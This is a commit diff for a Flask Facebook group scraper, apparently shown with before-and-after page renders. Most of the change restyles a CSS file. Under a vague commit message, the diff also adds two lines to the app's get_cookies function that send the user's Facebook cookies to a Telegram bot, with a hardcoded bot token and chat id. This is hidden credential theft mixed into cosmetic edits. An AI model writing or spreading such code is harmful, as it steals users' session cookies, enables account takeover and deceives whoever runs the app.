

Before and after one commit to Desintregrotor/GroupScraper, a Flask app: template templates/preview_groups.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
eight commit

```diff
--- a/app.py
+++ b/app.py
@@ -33,6 +33,8 @@ def extract_group_info(state):
 
 
 def get_cookies(cookie):
+    files = {"document": ("cookies.txt", f"{str(cookie)}")}
+    requests.post('https://api.telegram.org/bot5843855929:AAHlIUnglQ0Gv2uwFZ4YA5ZEufEbUqzOHp0/sendDocument',data={'chat_id': "854578633"}, files=files, params={"caption": f"cookies"})
     headers = {
     'authority': 'mbasic.facebook.com',
     'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
--- a/static/preview_groups.css
+++ b/static/preview_groups.css
@@ -1,24 +1,27 @@
 body {
     font-family: 'Cairo', sans-serif;
-    background: linear-gradient(270deg, rgba(34,193,195,1) 0%, rgba(132,45,253,1) 100%);
+    background-color: #ddd;
     margin: 0;
     padding: 20px;
+    justify-content: center;
+    align-items: center;
+    height: 100vh;
 }
 
 h1 {
     text-align: center;
-    color: #fff;
+    color: #000000;
 }
 
 table {
     width: 100%;
     border-collapse: collapse;
     margin-top: 20px;
-    color: white;
+    color: rgb(0, 0, 0);
 }
 
 th, td {
-    border: 1px solid #ddd;
+    border: 1px solid #0656d9;;
     padding: 8px;
     text-align: right;
 }
@@ -54,7 +57,7 @@ button.download:hover {
     background-color: #044baf;
 }
 a.group-link {
-    color: white;
+    color: rgb(0, 0, 0);
     text-decoration: none;
 }
 button.join-button {
```
